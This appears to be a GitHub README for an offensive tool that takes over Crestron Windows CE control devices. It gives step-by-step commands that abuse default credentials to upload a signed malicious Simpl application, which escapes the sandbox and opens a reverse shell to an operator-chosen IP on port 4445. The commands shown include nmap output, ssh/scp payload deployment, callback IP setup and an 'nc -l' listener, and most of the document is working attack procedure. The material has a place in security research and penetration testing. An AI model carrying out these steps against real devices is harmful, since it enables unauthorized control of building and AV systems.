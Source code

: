 # crestron
Tools for taking over Crestron Windows CE devices without the need for Crestron Toolbox.

If you have authenticated access, or the default `crestron:<blank>` credentials are still enabled, you can use the provided Simpl application to load a malicious application that breaks out of the sandbox to connect back to you.

In a perfect world, Crestron Simpl applications run in a sandbox and are signed with a special Crestron certificate that is shipped with Crestron Toolbox or the Simpl IDE. However, the application in this repository is a signed Crestron application that breaks out of the Simpl sandbox on supported Crestron Windows CE devices. Windows .NET Compact Framework v3.5 is the expected target.

The ports available to the interface can change depending on the device type, and whether you are looking at the control side or the LAN side. If the device has only the LAN interface connected, it will listen with all ports on that interface. Otherwise, the control ports will be listening on the control interface. The key ports are 21, 22, 23, 41794, or 41795.

```
$ nmap 192.168.1.174
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-01 13:46 CDT
Nmap scan report for DMPS3-7f81812f.attlocal.net (192.168.1.174)
Host is up (0.0036s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
443/tcp  open  https
843/tcp  open  unknown
6510/tcp open  mcer-port
```

This assumes you are starting from a clean slate. If you would like to factory reset the device to ensure nothing weird happens, SSH into the device and run `RESTORE`.
```
mkdir tmp
cd tmp
unzip ../pro3.lpz
ssh crestron@192.168.1.240 del \\User\\*
scp * crestron@192.168.1.240:\\User
ssh crestron@192.168.1.240 copy \\User\\boot.bt \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa_archive.zip \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.bin \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.cdm \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.rte \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpCustomAttributesInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpData.dat \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpHelperInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusLibrary.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusManagerApp.exe \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusObjects.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 progregister -P:all
ssh crestron@192.168.1.240 progreset

```

# Other Devices

If you can telnet or SSH into the device, the command prompt will contain the `RackType` that you can update `boot.bt` with.

```
$ telnet 192.168.1.174
Trying 192.168.1.174...
Connected to 192.168.1.174.
Escape character is '^]'.
DMPS3-4K-150-C Console
Warning: Another console session is open 

DMPS3-4K-150-C>

```

In `boot.bt`, the `RackType` is in the first stanza and by default is the `PRO3`.

```
[LG_BOOT_DATA]
BinFileName=fdsa.bin
SMWFileName=fdsa.smw
NumberSymbols=15
NumberSignals=33
RouteFileName=fdsa.rte
CUZ=1.007.0017
RackType=PRO3                 <---------- here
SymParamVersion=21.007.0017
NumberParameters=3
NumRealIntegralParams=0
NumRealStringParams=3
NVRAMUsed=0

[...snip...]
```

Replacing `PRO3` with the device type will ensure the device does not reject the application.

# Using the shell

The shell expects a `\User\ip` file with the IP address to connect back to. Port 4445 is hardcoded.

```
$ echo -n 192.168.1.123 > ip
$ scp ip crestron@192.168.1.174:/User
```

Once the connection is made, you can begin interacting outside of the sandbox.

```
$ nc -l 4445
Connected
 > ls
\Network
\Windows
\Temp
\Program Files
\My Documents
\HTML
\Sys
\Simpl
\Nvram
\FTP
\User
\ROMDISK
\Application Data
\My Recent Documents
\Recycled
\SSHBanner
 >  
 ```
 
 For instance, compared to the sandbox directory list.
 
 ```
$ telnet 192.168.1.174
Trying 192.168.1.174...
Connected to dmps3-7f81812f.attlocal.net.
Escape character is '^]'.
DMPS3-4K-150-C Console
Warning: Another console session is open 

DMPS3-4K-150-C>dir
Directory of \
       [DIR]  09-21-15 08:58:24 FTP
       [DIR]  09-21-15 08:58:24 HTML
       [DIR]  09-21-15 08:58:24 Nvram
       [DIR]  09-21-15 08:58:26 ROMDISK
       [DIR]  09-21-15 08:58:24 Simpl
       [DIR]  09-21-15 09:05:26 SSHBanner
       [DIR]  09-21-15 08:58:24 Sys
       [DIR]  09-21-15 08:58:26 User

DMPS3-4K-150-C>
```

Available commands are `ls`, `pwd`, `exec`, `cat`, `cd`, and `base64`.

On PRO3, for instance, you can run a graphics test executable for demonstration of the issue.

```
 > exec \Windows\cube.exe
```

A spinning cube will replace the Crestron menu on the display.
